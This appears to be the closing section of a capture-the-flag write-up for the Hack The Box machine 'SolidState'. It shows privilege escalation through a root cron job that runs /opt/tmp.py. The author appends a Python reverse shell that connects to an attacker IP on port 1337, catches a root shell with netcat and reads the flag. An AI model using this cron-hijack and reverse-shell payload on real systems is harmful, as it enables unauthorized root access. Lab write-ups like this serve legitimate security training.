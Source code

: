 It just recursively deletes files in `/tmp`. Lets monitor using `pspy` to see whether this file is indeed being executed by `root`!

After tranferring `pspy` over, we can start monitoring for new processes.

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ./pspy32
...
2021/01/14 09:24:01 CMD: UID=0    PID=1743   | /usr/sbin/CRON -f 
2021/01/14 09:24:01 CMD: UID=0    PID=1744   | /usr/sbin/CRON -f 
2021/01/14 09:24:01 CMD: UID=0    PID=1745   | /bin/sh -c python /opt/tmp.py 
2021/01/14 09:24:01 CMD: UID=0    PID=1746   | python /opt/tmp.py 
2021/01/14 09:24:01 CMD: UID=0    PID=1747   | sh -c rm -r /tmp/*
```

We can now confirm that `tmp.py` is being executed by `root`!

# Exploitation (2)

All we have to do is just append a `python` reverse shell to `tmp.py`

```bash
$ curl http://10.10.XX.XX/payload >> /opt/tmp.py
$ cat /opt/tmp.py
...
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

We then setup our `nc` listener again and we will eventually receive reverse shell as `root`.
```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.51] 55858
root@solidstate:~# id
uid=0(root) gid=0(root) groups=0(root)
```

# root.txt

The root flag is located in the home directory of `root`, as usual.

```bash
root@solidstate:~# cat /root/root.txt
4f4aXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !